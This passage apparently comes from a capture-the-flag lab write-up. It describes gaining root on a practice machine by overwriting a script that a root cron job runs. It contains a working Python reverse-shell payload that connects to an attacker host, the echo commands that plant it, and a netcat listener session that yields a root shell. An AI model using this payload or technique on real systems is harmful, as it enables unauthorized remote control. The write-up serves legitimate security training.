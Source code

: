Oct  5 02:05:46 sun gnome-session[3685]:     at cookieParser (/home/sun/node_modules/cookie-parser/index.js:70:5)
Oct  5 02:05:46 sun gnome-session[3685]:     at Layer.handle [as handle_request] (/home/sun/node_modules/express/lib/router/layer.js:95:5)
Oct  5 02:10:01 sun CRON[8246]: (root) CMD (python /home/sun/Documents/script.py > /home/sun/output.txt; cp /root/script.py /home/sun/Documents/script.py; chown sun:sun /home/sun/Documents/script.py; chattr -i /home/sun/Documents/script.py; touch -d "$(date -R -r /home/sun/Documents/user.txt)" /home/sun/Documents/script.py)
{% endhighlight %}

Since we have write permission for "/home/sun/Documents/script.py", we can take advantage of that.<br>
We can find a short python payload on the <a href="http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet">Pentestmonkey</a>
{% highlight console %}
oot@kali:~# cat python_rshell.txt 
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.14.30",8080));os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
{% endhighlight %}

Then, prepare needed command like following.
{% highlight console %}
root@kali:~# cat python_rshell.txt 
echo 'import socket,subprocess,os;' > script.py
echo 's=socket.socket(socket.AF_INET,socket.SOCK_STREAM);' >> script.py
echo 's.connect(("10.10.14.30",8080));os.dup2(s.fileno(),0);' >> script.py
echo 'os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' >> script.py
{% endhighlight %}

Then, run these commands on the window which we got a reverse shell as a user.
{% highlight console %}
$ echo 'import socket,subprocess,os;' > script.py
$ echo 's=socket.socket(socket.AF_INET,socket.SOCK_STREAM);' >> script.py
$ echo 's.connect(("10.10.14.30",8080));os.dup2(s.fileno(),0);' >> script.py
$ echo 'os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' >> script.py
{% endhighlight %}

Make sure to launch the reverse shell listener.<br>
Now we can achieve a reverse shell as a root user.
{% highlight console %}
root@kali:~# nc -nlvp 8080
listening on [any] 8080 ...
connect to [10.10.14.30] from (UNKNOWN) [10.10.10.85] 48518
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
{% endhighlight %}

root.txt is in the directory "/root".
{% highlight console %}
# pwd         
/root

# cat root.txt
ba1d0019200a54e370ca151007a8095a
{% endhighlight %}
